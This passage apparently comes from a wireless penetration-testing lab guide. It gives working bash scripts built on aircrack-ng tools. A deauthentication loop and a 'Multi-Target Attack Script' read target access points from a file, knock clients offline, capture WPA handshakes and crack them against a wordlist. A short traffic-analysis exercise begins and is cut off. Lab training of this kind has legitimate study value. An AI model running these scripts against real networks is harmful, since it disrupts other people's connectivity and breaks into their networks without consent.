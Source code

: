 ```bash
for i in {1..10}; do
    aireplay-ng -0 5 -a $TARGET_BSSID $INTERFACE
    sleep 15
done

# Stop monitoring
kill $AIRODUMP_PID

echo "Handshake capture complete"
```

**Multi-Target Attack Script**:
```bash
#!/bin/bash
# multi_target_attack.sh

# Read targets from file
while read line; do
    BSSID=$(echo $line | cut -d',' -f1)
    CHANNEL=$(echo $line | cut -d',' -f2)
    ESSID=$(echo $line | cut -d',' -f3)
    
    echo "Attacking $ESSID ($BSSID) on channel $CHANNEL"
    
    # Capture handshake
    timeout 300 airodump-ng -c $CHANNEL --bssid $BSSID -w "${ESSID}_handshake" wlan0mon &
    CAPTURE_PID=$!
    
    # Deauth attack
    sleep 30
    aireplay-ng -0 10 -a $BSSID wlan0mon
    
    wait $CAPTURE_PID
    
    # Attempt to crack
    if [ -f "${ESSID}_handshake-01.cap" ]; then
        aircrack-ng -w /usr/share/wordlists/rockyou.txt "${ESSID}_handshake-01.cap"
    fi
    
    sleep 60
done < targets.txt
```

---

## 🔍 Phase 6: Advanced Analysis

### **Exercise 6.1: Traffic Pattern Analysis**

**Objective**: Analyze wireless traffic patterns for security assessment.

**Statistical Analysis**:
```bash
# Analyze capture files
python3 << 'EOF'
import pandas as pd
import matplotlib.pyplot as plt
from scapy.all import *

# Load capture file
packets = rdpcap("capture.cap")

# Analyze frame types
frame_types = {}
```